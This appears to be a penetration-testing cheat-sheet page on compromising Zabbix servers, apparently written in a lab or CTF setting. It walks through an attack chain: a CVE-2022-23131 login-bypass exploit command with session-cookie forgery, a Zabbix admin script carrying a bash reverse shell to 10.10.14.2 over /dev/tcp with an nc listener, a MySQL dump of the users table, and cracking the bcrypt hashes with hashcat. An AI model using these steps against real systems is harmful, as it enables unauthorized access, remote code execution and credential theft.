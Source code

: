 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Zabbix Server Configurations</summary>

`cat /usr/local/etc/zabbix_server.conf` & removing commented out lines:

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### Connecting to MySQL DB for zabbix

```
mysql -h 127.0.0.1 -P 3306 -u zabbix  -p'rD...' zabbix
show databases;
use zabbix;
show tables;
select * from users;
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cracking Zabbix's bcrypt hash:

```bash
hashcat -m 3200 hash.txt rockyou.txt
```

</details>
